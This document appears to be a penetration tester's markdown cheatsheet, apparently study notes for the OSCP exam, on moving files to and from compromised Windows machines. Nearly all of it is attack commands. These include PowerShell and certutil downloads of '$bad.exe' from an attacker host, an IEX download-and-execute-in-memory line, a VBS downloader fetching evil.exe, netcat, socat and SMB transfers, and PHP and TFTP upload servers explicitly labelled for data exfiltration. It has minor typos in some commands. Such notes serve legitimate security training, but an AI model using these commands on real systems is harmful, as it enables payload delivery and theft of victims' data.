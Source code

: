 # Windows File Transfers
Check out [[Kali-Windows-Resources]] for selection of binaries and such to transfer! Other methods for [[File-Transfers]].

## FTP download
```bash
# copy a binary to /ftphome/; serve the binary on attackbox local ftp server then connect with target
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
sudo systemctl restart pure-ftpd
```

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat-Cheatsheet]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```

## Powershell
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')"
```
Or
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')
```
Download and execute without saving to disk
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe')`
```

## Non interactive Powershell
```powershell
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$IP:$PORT/$bad.exe" >> wget.ps1   
echo $file = "$bad.exe" >> wget.ps1   
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
Then
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## SMB with Impacket
[[Impacket-Cheatsheet]]
```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

```bash
python3 smbserver.py ROPNOP /path/to/exploit
copy \$IP\ROPNOP\exploit.exe
```

## CertUtil
```powershell
certutil.exe -urlcache -split -f "http://$IP/$FILE"
```

**TFTP** (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.) [ref](https://github.com/pythonmaster41/Go-For-OSCP)
```powershell
# On attacker machine:
mkdir /tftp
chwon nobody: /tftp
atftpd --deamon --port 69 tftp
cp $FILE tftp
# On Windows:
tftp -i $IP GET $FILE
tftp -i $IP PUT $FILE
```

## Windows-File-transferVBS-script
BEWARE: "If creating on Linux and then transferto windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

## exe2hex plus Powershell
Have a `.exe` convert into a hex string:
```bash
# Transform binary making it non-interactive 
exe2hex -x nc64.exe -p nc.cmd
```
Good old copy and paste into a shell on Windows machine.

## UPX

Debug `.exe` (32bit machines only) filessize < 64kb!
```powershell
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```

## PHP script - Upload HTTP Server for Data Exfiltration

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in /uploads/
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Exfiltrate your way to a great day!
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```

```powershell
tftp -i $ip put bigExfiltratedDataFile.nowmine
```

## Powercat
See [[Powercat-Cheatsheet]] for more, but to file transfers with powercat:
```powershell
powercat -c 10.10.10.10 -p 54321 -i C:\Users\Administrator\powercat.ps1
```

## References
[hakluke](https://hakluke.medium.com/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97)
[pythonmaster41](https://github.com/pythonmaster41/Go-For-OSCP)
[hackersinterview](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)

[sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html)